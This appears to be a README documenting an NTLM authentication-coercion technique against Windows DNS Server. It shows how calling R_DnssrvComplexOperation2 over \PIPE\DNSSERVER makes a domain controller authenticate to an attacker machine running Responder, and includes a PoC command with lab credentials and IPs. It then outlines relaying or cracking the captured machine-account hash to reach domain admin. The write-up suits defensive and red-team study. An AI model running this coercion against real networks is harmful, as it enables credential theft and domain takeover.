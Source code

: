 # MS-DNSP - Remote call to R_DnssrvComplexOperation2 (opnum 7)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvComplexOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9)

 - **Function operation number**: `7`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation2(
   [in]                                 handle_t               hBindingHandle,
   [in]                                 DWORD                  dwClientVersion,
   [in]                                 DWORD                  dwSettingFlags,
   [in, unique, string]                 LPCWSTR                pwszServerName,
   [in, unique, string]                 LPCSTR                 pszZone,
   [in, unique, string]                 LPCSTR                 pszOperation,
   [in]                                 DWORD                  dwTypeIn,
   [in, switch_is(dwTypeIn)]            DNSSRV_RPC_UNION       pDataIn,
   [out]                                PDWORD                 pdwTypeOut,
   [out, switch_is(*pdwTypeOut)]        DNSSRV_RPC_UNION*      ppDataOut
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvComplexOperation2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9